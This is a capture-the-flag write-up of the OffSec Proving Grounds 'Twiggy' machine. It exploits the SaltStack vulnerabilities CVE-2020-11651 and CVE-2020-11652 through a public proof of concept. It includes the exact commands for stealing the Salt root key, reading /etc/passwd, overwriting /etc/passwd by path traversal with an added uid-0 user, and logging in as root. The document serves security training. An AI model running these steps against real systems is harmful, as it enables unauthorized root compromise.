







**OffSec Proving Ground -- Twiggy Room Write-Up**
================================================
This write-up is for the OffSec Proving Grounds Practice machine "Twiggy" — not part of any exam or paid certification content. All information is publicly accessible and shared for educational purposes only.

**Overview**
------------

In this challenge, we exploited a SaltStack vulnerability (**CVE-2020-11651 / CVE-2020-11652**) in the Twiggy room. The Salt master's ZeroMQ service was exposed on ports **4505** and **4506**, allowing us to interact with the master and ultimately escalate our privileges to **root**.

* * * * *

**Enumeration**
---------------

### **Initial Scan**

We started our enumeration by scanning all ports using Nmap:

`nmap -sCV -v -T4 -p- 192.168.170.62 -oN enu/nmap-services.md`

  

The scan revealed several services:

-   **22/tcp**: OpenSSH 7.4

-   **53/tcp**: NSD (domain)

-   **80/tcp**: nginx 1.16.1

-   **4505/tcp & 4506/tcp**: ZeroMQ (ZMQ 2.0)

-   **8000/tcp**: nginx 1.16.1

The key discovery was the presence of the **ZeroMQ** service.

* * * * *

### **Web Service Check**

We used `dirsearch` against the HTTP service:

`dirsearch -u http://192.168.170.62/`

  

Despite trying injection attacks and testing default credentials, nothing noteworthy was found on the web interface.

* * * * *

**Vulnerability Research and Exploitation**
-------------------------------------------

### **Identifying the Vulnerability**

Based on the Nmap results, we investigated the ZeroMQ service version. Research led us to **CVE-2020-11651**, a vulnerability in SaltStack that allows unauthenticated commands to the Salt master. A Python proof-of-concept exploit was publicly available and served as our entry point.

  

* * * * *

### **Running the Exploit**

We executed the exploit as follows:

`python3 zero.py --master 192.168.170.62`

  

The script successfully connected to the Salt master and retrieved a **root key** using the `_prep_auth_info` command.

* * * * *

### **Reading Files**

With the root key, we were able to read files from the target system. For example:

`python3 zero.py --master 192.168.170.62 -r /etc/passwd`

  

This confirmed our access by returning the contents of `/etc/passwd`.

* * * * *

**Privilege Escalation**
------------------------

### **Creating a New Privileged User**

First, we generated a password hash:

`openssl passwd 123`

Then, we appended a new root user entry to our local `passwd` file:

`echo "slim:$1$r/5WEL9l$gr6/QAygoP4zISL2SSrfr1:0:0:root:/root:/bin/bash" >> files/passwd`

* * * * *

### **Overwriting the Target's `/etc/passwd`**

We uploaded the modified `passwd` file to the target system:

`python3 exploit/zero.py --master 192.168.170.62 --upload-src files/passwd --upload-dest ../../../../../../etc/passwd`

  

The relative path allowed us to overwrite the target's `/etc/passwd`.

* * * * *

### **Obtaining a Root Shell**

Finally, we logged in as the new user:

`ssh slim@192.168.170.62`

  

This gave us **root access** to the machine.

* * * * *

**Conclusion**
--------------

By leveraging **CVE-2020-11651** and **CVE-2020-11652**, we were able to:

-   **Enumerate** open ports and identify exposed ZeroMQ services

-   **Exploit** the Salt master to retrieve a root key and read system files

-   **Escalate privileges** by uploading a custom `/etc/passwd` file

> 🛡️ This challenge highlights the critical importance of securing internal services and promptly patching known vulnerabilities.
